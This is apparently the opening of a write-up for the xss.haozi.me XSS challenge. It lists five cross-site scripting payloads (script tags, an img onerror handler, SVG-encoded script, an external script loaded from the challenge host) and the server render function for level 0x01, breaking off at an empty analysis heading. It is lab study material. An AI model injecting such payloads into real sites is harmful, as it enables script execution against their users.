 ## html:

```
   1. <div><script>alert('1')</script></div>
   2. <div><script>alert`1`</script></div>
   3. <div><script src=https://xss.haozi.me/j.js></script></div>
   4. <div><img src='' onerror='alert(1)'></div>
   5. <div><svg><script>alert&#x28;1&#x29;</script></svg></div>
```

![000](/img/xss/haozi/000.png)

#  0x01

## server code:

```
function render (input) {
  return '<textarea>' + input + '</textarea>'
}
```

## 分析:
